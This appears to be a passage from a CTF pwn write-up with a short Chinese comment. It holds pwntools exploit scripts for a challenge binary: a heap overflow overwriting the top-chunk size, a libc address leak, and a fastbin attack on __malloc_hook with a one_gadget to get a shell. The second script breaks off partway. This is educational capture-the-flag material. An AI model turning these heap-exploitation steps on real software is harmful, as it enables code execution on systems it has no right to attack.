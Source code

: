 ```python
    choice(2)

def free():
    choice(3)

def edit(size,content):
    choice(4)
    n.recvuntil("Size > ")
    n.sendline(str(size))
    n.recvuntil("Content > ")
    n.send(content)
regs()
new(0x18,'0000')
edit(0x18+7,'a'*0x18+p32(0xfe1))
new(0x1000,'1111')
new(0x68,'a'*8)
show()
libcbase = u64(n.recvuntil('\x7f')[-6:]+'\x00\x00')-0x3c5188
print hex(libcbase)
malloc_hook = libcbase + libc.sym['__malloc_hook']
one_gadget = libcbase + 0xf02a4
free()
edit(0x68,p64(malloc_hook-0x10+5-8))
new(0x68,'aaaa')
new(0x68,'aaa'+p64(one_gadget)*3)

choice(1)
n.recvuntil('>')
n.sendline('12')
n.interactive()
```
然后很蛋疼的是，我payload搓完后才有人和我说比赛的环境是18.04
本着懒但是要准确的态度重新搓了个payload

```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./pwn')
elf=ELF('./pwn')
libc = elf.libc


def regs():
    n.recvuntil('name?')
    n.sendline("nepire")


def choice(idx):
    n.recvuntil('Your choice > ')
    n.sendline(str(idx))


def new(size,content):
    choice(1)
    n.recvuntil("Size >")
    n.sendline(str(size))
    n.recvuntil('Content > ')
    n.send(content)


def show():
    choice(2)


```